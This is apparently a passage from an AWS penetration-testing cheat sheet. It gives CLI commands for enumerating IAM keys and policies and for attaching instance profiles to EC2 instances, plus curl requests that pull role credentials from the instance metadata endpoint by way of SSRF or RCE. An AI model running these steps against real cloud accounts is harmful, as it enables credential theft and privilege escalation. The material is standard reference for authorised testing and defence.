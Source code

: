 #### Getting information about the key

```
aws sts get-caller-identity
```

#### Getting policies attached to the IAM user

```
aws iam list-attached-user-policies --user-name user_name
```

#### Getting information about a specific policy version

```
aws iam get-policy-version --policy-arn ARN --version-id ID
```

To attach a role to an EC2 instance, we can use the RCE to grab the ID

```
curl http://169.254.169.254/latest/meta-data/instance-id
```

#### Listing instance profiles

```
aws iam list-instance-profiles
```

#### Attach an instance profile to an EC2 instance

```
aws ec2 associate-iam-instance-profile --instance-id ID --iam-instance-profile Name=ProfileName
```

### Credential Access

* We can grab the credentials by abusing metadata (Web Application with SSRF,RCE and so on)

#### After the initial access
1. Enumerate the key (Role)

```
aws sts get-caller-identity
```

2. If there are roles associated with the key, we can grab the credentials by issuing a request to the metadata endpoint (v1 or v2)

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_OF_PREVIOUS_COMMAND
```

3. Configure the aws cli

```
aws configure 
```

Or use environment variables.
